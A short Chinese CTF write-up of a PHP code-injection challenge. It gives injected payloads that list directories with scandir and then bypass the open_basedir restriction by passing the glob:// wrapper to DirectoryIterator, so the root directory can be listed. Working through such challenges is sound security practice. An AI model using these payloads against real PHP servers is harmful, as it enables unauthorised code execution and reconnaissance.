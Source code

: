 这道题一开始还以为和上一题差不多

![image-20241129150755401](../assets/image-20241129150755401.png)

先进行目录查询

```
c=var_export(scandir("./"));exit();
```

注意⚠️ 这道题只有权限查询的当前目录也就是`./`

而无法访问到其他目录的文件，如 / 根目录

> 尝试使用 scandir() 函数来扫描根目录，但由于 open_basedir 限制，这个操作被禁止了。
> open_basedir 是 PHP 的一个安全配置指令，用来限制 PHP 脚本只能访问特定的目录。
> 当前配置只允许访问 /var/www/html/ 目录及其子目录，但不允许访问其他目录。
>
> 原文链接：https://blog.csdn.net/Myon5/article/details/140079942

我们可以尝试用glob协议绕过open_basedir协议

payload:（记得删注释）

```php
c=?><?php $a=new DirectoryIterator("glob:///*");// 创建一个DirectoryIterator对象，遍历根目录
foreach($a as $f)// 遍历每个条目
{
   echo($f->__toString().' ');// 输出条目的名称，并添加一个空格
}
exit(0); // 终止脚本执行
?>
```
